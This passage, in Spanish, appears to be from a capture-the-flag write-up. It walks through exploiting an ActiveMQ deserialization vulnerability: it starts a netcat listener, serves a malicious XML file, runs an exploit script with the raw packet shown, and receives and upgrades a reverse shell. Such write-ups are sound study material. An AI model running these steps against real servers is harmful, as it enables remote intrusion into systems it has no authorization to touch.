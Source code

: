 - El script de Python3 nos automatiza el envió del `xml` en `ActiveMQ` que usa un entorno Spring y explota una vulnerabilidad de deserialización.

- Vamos a ponernos en escucha.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

- Iniciamos nuestro servidor en Python3.

```bash
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```


- Ejecutamos el script.

```bash
❯ python3 exploit.py -i 10.10.11.243 -u http://10.10.14.3/poc.xml
     _        _   _           __  __  ___        ____   ____ _____ 
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|  
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___ 
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.3/poc.xml

[*] Sending packet: 0000006c1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010019687474703a2f2f31302e31302e31342e332f706f632e786d6c
```

- Llegan las peticiones.

```bash
❯ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.243 - - [27/Oct/2024 11:40:55] "GET /poc.xml HTTP/1.1" 200 -
10.10.11.243 - - [27/Oct/2024 11:40:56] "GET /poc.xml HTTP/1.1" 200 -
```

- Nos llega la shell.

```bash
activemq@broker:/opt/apache-activemq-5.15.15/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
zsh: suspended  nc -nlvp 443
                                                                                                
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
<ENTER>
activemq@broker:/opt/apache-activemq-5.15.15/bin$ export TERM=xterm
```
